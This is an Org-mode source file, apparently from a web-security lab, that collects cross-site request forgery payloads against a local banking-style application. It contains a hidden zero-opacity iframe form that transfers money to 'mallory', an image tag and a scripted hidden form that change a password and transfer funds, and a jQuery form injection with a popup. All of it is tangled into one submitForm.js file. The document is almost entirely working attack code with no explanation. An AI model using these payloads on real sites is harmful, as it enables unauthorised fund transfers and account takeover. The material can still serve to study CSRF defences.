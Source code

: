 #+title: Form Submit

* IFrame Post Request
#+NAME: iframe
#+BEGIN_SRC javascript
<div id="attackDiv">
    <style>
        #attackDiv * {width: 0px; height: 0px; opacity: 0}
    </style>
    <form method="post" action="http://localhost:3100/transfer" target="secretFrame">
        <input type="hidden" name="transferTo" value="mallory">
            <input type="hidden" name="amount" value="400">
                <input type="submit">
    </form>
    <iframe id="secretFrame"></iframe>
</div>
#+END_SRC

* IFrame Form
#+NAME: iframeform
#+BEGIN_SRC javascript
<img src="http://localhost:3100/changePassword?new=12345">

    (function transferFunds(){var frm=document.createElement('FORM');
    frm.name='myForm';
    frm.method='POST';
    frm.action='http://localhost:3100/transfer';

    var elem1=document.createElement('INPUT');
    elem1.type='HIDDEN';
    elem1.name='transferTo';
    elem1.value='mallory';
    frm.appendChild(elem1);

    var elem2=document.createElement('INPUT');
    elem2.type='HIDDEN';
    elem2.name='amount';
    elem2.value='300';
    frm.appendChild(elem2);

    document.body.appendChild(frm);
    frm.submit();
})();
#+END_SRC

* Inject Form
#+NAME: injectform
#+BEGIN_SRC javascript
//Inject form GET
var vct='
<form name="frmGet" method="GET" action="http://localhost:3100/changePassword">'+
    '<input type="hidden" name="new" value="123"/></form>
'
$('#targetDiv').append(vct);

//open popup
window.open("http://localhost:3100/changePassword?new=234");
#+END_SRC

* Tangle
#+NAME: functions
#+BEGIN_SRC javascript :tangle submitForm.js :eval no :noweb yes
<<iframe>>
<<iframeform>>
<<injectform>>
#+END_SRC
